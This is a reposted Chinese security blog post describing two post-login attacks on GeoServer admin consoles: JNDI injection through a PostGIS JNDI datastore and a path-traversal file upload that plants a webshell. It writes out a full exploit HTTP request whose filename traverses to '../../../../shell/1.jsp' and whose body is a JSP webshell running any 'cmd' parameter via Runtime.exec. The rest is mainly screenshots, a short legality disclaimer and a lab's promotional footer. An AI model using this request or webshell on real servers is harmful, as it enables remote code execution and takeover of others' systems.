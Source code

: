 #  【转载】geoserver漏洞解析以及测试方法   
 F12sec   2024-05-25 10:49  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltD8XPW4tic7XhWH2y1kX6BrxtIs7mLr9KGqtsicVGTbEWH5ic3GY75MaN1ZLqA8sDTRsN9NwWibwmSUliaw/640?wx_fmt=png "")  
  
相信各位师傅在HVV中，都遇到过geoserver系统，但是一般都是弱口令或者信息泄露、SSRF之类的，拿shell的案例不多，下面分享下geoserver系统后台的两种打法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDicMfKmcJzYjaxQSVhek6Jmkfice4hVHZcqF6Fib0fU2tvXTzz85onPw8OvnLHDpmb2AwG6iapNMibxLDA/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOUxKIDX977h2rZ4zxek8KhgGbEltlY7DGRxlEpEJHhLiaM3uX8CXbicOA/640?wx_fmt=png "")  
  
  
一、后台JNDI 注  
⼊  
  
测试版本：Version 2.13.3  
  
数据储存—》添加新的数据存储—》PostGIS (JNDI) —》jndiReferenceName *  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOJeorKPcliacSarsy4WXq14547IOH45ESkP9nibeXbe98CcibsY0M7kVDA/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOa6SibvZhPQuib4UGBVEv3LlCWH4bSOmYIDY17BUCaq95RL83DQ7QdH3A/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vO8jyLKo6U0icpp2hzrtPLMj91biaVmT6SdGR1CmWWZhc4U0js77vcjichA/640?wx_fmt=png "")  
  
  
使用CB1链，弹个计算器      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOFsDZBP25HwLkTMjIiawGxcicV6tfzJk20YiaLz2PKDOztCFVEesmFFKibg/640?wx_fmt=png "")  
  
  
            
  
二、GeoServer后台文件上传致远程代码执行漏洞  
  
测试版本：Version 2.22.2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOuKnQnia9y7edbzGSvnQechvrHRdTaf9sia1icstiaavrpzKwXfibHNouOlA/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOxhfLFXRPwGvu3ic8CsWa9AlRtc1XWEPogkSLD4ua8VdPic0y26xCse7g/640?wx_fmt=png "")  
  
  
修改相对路径为绝对路径，即可愉快的上传webshell了。      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOuU3biclygIQEfJ6hiaJ6ByWH4icvO0ZgiaJ5KgT3WE2lyxPUKQzHc3ammw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOPRFEsjH2PcMRU9agibmw67nUBxQOcCBvFFEYJPBJu5FBHNHP8CSquAg/640?wx_fmt=png "")  
  
  
我了个去，不解析jsp      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOQYtVYuqslVPAPRFpLUIrXosDVznOXAy2cUCbgckDmoLNaDxtkZ0hWw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOFIQzjNmYWbGiah7LAVDc46PjqxK6rhJynEP1RvYbARWWicb1iatdvzUbw/640?wx_fmt=png "")  
  
  
换war包用tomcat部署  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOT4nkVTiaYvU0GbK296TeUxgkeIkrOgYtzWibDDnBaozhMFo2bfx95icpw/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOBic8HWcfCMnGQwMoVlLFfmmdEibqcH0YhbPJxPA1uSTGiamPIQdqctr3Q/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOjyNJbajrjySkPenK1kKwd5NkjWutrX7XsJ1stO74o4QfLibq3fge4XQ/640?wx_fmt=png "")  
  
<table><tbody><tr><td width="414" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">POST /geoserver/rest/workspaces/nurc/coveragestores/mosaic/file.shp?filename=../../../../shell/1.jsp HTTP/1.1</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Host: localhost:8080</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Content-Length: 370</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua: &#34;Not_A Brand&#34;;v=&#34;8&#34;, &#34;Chromium&#34;;v=&#34;120&#34;</span>        <o:page></o:page></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua-mobile: ?0</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-FocusedElementId: id39</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Content-Type: multipart/form-data; boundary-----WebKitFormBoundaryfoycybhDiQZEqxoy</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept: application/xml, text/xml, */*; q=0.01</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-Ajax-BaseURL: wicket/bookmarkable/org.geoserver.web.data.store.CoverageStoreEditPage?7&amp;storeName=mosaic&amp;wsName=nurc</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">X-Requested-With: XMLHttpRequest</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-Ajax: true</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua-platform: &#34;Windows&#34;</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Origin: http://localhost:8080</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Site: same-origin</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Mode: cors</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Dest: empty</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Referer: http://localhost:8080/geoserver/web/wicket/bookmarkable/org.geoserver.web.data.store.CoverageStoreEditPage?7&amp;storeName=mosaic&amp;wsName=nurc</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept-Encoding: gzip, deflate, br</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept-Language: zh-CN,zh;q=0.9</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Cookie:JSESSIONID=52159346772CE228794C0E097A442D9F</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Connection: close</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">                 <o:p> </o:p></span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">&lt;%</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">    if(request.getParameter(&#34;cmd&#34;) != null) {</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();</span>        <o:page></o:page></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        int a = -1;</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        byte[] b = new byte[2048];</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        out.print(&#34;</span></p><pre>&#34;);<p><br/></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        while((a=in.read(b))!=-1) {</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">            out.print(new String(b));</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        }</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        out.print(&#34;</span></p></pre>&#34;);<p><br/></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">    }</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">%&gt;</span></p></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOptWbbRGO14CGCoDXDgzwgkicX03JMmkooXTrDubma1MBZxwT9w3rzEA/640?wx_fmt=png "")  
  
  
该漏洞虽然已公布部分 poc但仍处于 1day状态，请勿用于违法用途，仅做测试环境交流学习。由于该系统弱口令使用情况较为广泛，建议受影响的用户尽快修复漏洞。  
      
  
-=[感·谢·阅·读]=-  
  
**关于我们**  
  
  
星网实验室成立（starnetlabs）于2021年10月，是智网安云（武汉）信息技术有限公司旗下安全研究院实验室之一，其成员主要来源于国内一线安全厂商或监管执法机构，多名成员取得CISSP，CISP，PMP，CISAW，PTE等国内网络安全圈行业认证证书，该实验室研究员多次参加国内和省内网络安全攻防比赛取得佳绩。实验室主要研究方向：网络安全攻防竞赛、最前沿的攻防技术，云计算安全、物联网安全等。形成一支结构合理、创新能力强的产学研队伍。星网实验室将持续沉淀前沿安全能力，面向产业输出业蓝军网络安全对抗工具、红队攻击武器平台、蜜网平台、大数据安全管理中心等产品，并持续开放各项核心能力，推动产业安全能力建设。护航各行业数字化变革，守护大数据时代的网络安全是星网实验室的使命。  
  
**大**  
  
**佬**  
  
**，**  
  
**关**  
  
**注**  
  
**一**  
  
**下**  
  
**呗**  
  
**！**  
  
  
  
